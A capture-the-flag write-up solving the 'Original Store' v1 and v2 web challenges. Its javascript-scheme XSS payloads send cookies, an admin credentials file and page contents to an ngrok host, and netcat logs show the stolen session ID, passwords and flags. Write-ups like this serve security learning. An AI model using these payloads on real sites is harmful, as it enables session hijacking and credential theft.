 # Original Store v1 and v2

**Date:** 10, June, 2021

**Author:** Dhilip Sanjay S

---

## Original Store - Solution 1

### Account.php

- Create an account.
- Login using that credentials.
- Click on the `profile icon`, the `account.php` page will be loaded.
- It has a `PHPSESSID`
- If we change this cookie value to **admin's cookie**, then we can access the flag.

### Using javascript scheme

- Using the `javascript`, the PHP cookie can be fetched:

```js
javascript:(fetch("http://683b6a41c9a9.ngrok.io?c="+document.cookie))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49964
GET /?c=PHPSESSID=bn3nijo3ded9hfnlei5ikhccse HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.244.38.232
X-Forwarded-Proto: http
```

### Change PHPSESSID

- Change the PHPSESSID to login as admin and then visit `account.php`:

![Original Store - Flag](Images/OriginalStore-flag.png)

---

## Original Store - Solution 2

- There was directory listing enabled.
- The `/api/` folder had three versions `v1, v2 and v3`.
- All of them had `authorize.php` file.
- We can read the contents of `api/v1/authorize.php` to get admin password:

```js
javascript:fetch("/api/v1/authorize.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49992
GET /?c={%22username%22:%22admin%22,%20%22password%22:%22V3ryStr0ngP4ssw0rdF0rN0Cr4ck%22} HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.244.38.232
X-Forwarded-Proto: http
```

---

## Original Store - Solution 3

- Read the contents of `account.php`:

```js
javascript:fetch("/account.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50008
GET /?c=%3Clink%20href=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/css/bootstrap.min.css%22%20rel=%22stylesheet%22%20id=%22bootstrap-css%22%3E%3Cscript%20src=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/js/bootstrap.min.js%22%3E%3C/script%3E%3Cscript%20src=%22//code.jquery.com/jquery-1.11.1.min.js%22%3E%3C/script%3E%3Clink%20rel=%22stylesheet%22%20href=%22https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css%22%3E%20%3Cdiv%20class=%22container%22%3E%20%20%20%20%3Cdiv%20class=%22span3%20well%22%3E%20%20%20%20%20%20%20%20%3Ccenter%3E%20%20%20%20%20%20%20%20%3Cimg%20src=%22https://i.ytimg.com/vi/jllUYAjIiYg/maxresdefault.jpg%22%20name=%22aboutme%22%20width=%22140%22%20height=%22140%22%20class=%22img-circle%22%3E%3C/a%3E%20%20%20%20%20%20%20%20%3Ch2%3Eadmin%3C/h2%3E%3C/center%3E%3Cbr%3E%3Ccenter%3E%3Ch2%3EAdmin%20has%20his%20own%20original%20secrets:%20zh3r0{4dm1n_l0ves_0nly_0r1g1n4ls_br0}%3C/h2%3E%3Ccenter%3E%3Ch2%3E%3Ca%20href=%22logout.php%22%20class=%22btn%20btn-danger%20ml-3%22%3ESign%20Out%20of%20Your%20Account%3C/a%3E%3C/center%3E%3Ch2%3E%3C/div%3E%3C/div%3E HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.244.38.232
X-Forwarded-Proto: http
```

- URL decode the response to get the flag!

---

## Original Store v2 - Solution 1

- We can read the contents of `api/v1/authorize.php` to get admin password:

```js
javascript:fetch("/api/v1/authorize.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 49996
GET /?c={%22username%22:%22admin%22,%20%22password%22:%22V3ryStr0ngP4ssw0rdF0rN0Cr4ckTh1sT1m3V2Ch4llP4ss%22} HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.200.225.133
X-Forwarded-Proto: http
```

![Original Store v2 - Flag](Images/OriginalStorev2-flag.png)


## Original Store v2 - Solution 2

- Read the contents of `account.php`:

```js
javascript:fetch("/account.php").then(r=>r.text()).then(r=>fetch("http://683b6a41c9a9.ngrok.io/?c="+r))
```

- The response:

```
$ nc -lvnp 1234
listening on [any] 1234 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 50004
GET /?c=%3Clink%20href=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/css/bootstrap.min.css%22%20rel=%22stylesheet%22%20id=%22bootstrap-css%22%3E%3Cscript%20src=%22//netdna.bootstrapcdn.com/bootstrap/3.1.0/js/bootstrap.min.js%22%3E%3C/script%3E%3Cscript%20src=%22//code.jquery.com/jquery-1.11.1.min.js%22%3E%3C/script%3E%3Clink%20rel=%22stylesheet%22%20href=%22https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css%22%3E%20%3Cdiv%20class=%22container%22%3E%20%20%20%20%3Cdiv%20class=%22span3%20well%22%3E%20%20%20%20%20%20%20%20%3Ccenter%3E%20%20%20%20%20%20%20%20%3Cimg%20src=%22https://i.ytimg.com/vi/jllUYAjIiYg/maxresdefault.jpg%22%20name=%22aboutme%22%20width=%22140%22%20height=%22140%22%20class=%22img-circle%22%3E%3C/a%3E%20%20%20%20%20%20%20%20%3Ch2%3Eadmin%3C/h2%3E%3C/center%3E%3Cbr%3E%3Ccenter%3E%3Ch2%3EYou%20beat%20the%20admin%20again:%20zh3r0{4dm1n_h4tes_car_st34l3rs_br0}%3C/h2%3E%3Ccenter%3E%3Ch2%3E%3Ca%20href=%22logout.php%22%20class=%22btn%20btn-danger%20ml-3%22%3ESign%20Out%20of%20Your%20Account%3C/a%3E%3C/center%3E%3Ch2%3E%3C/div%3E%3C/div%3E HTTP/1.1
Host: 683b6a41c9a9.ngrok.io
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Origin: http://localhost
Referer: http://localhost/
X-Forwarded-For: 35.200.225.133
X-Forwarded-Proto: http
```

- URL decode the response to get the flag!

---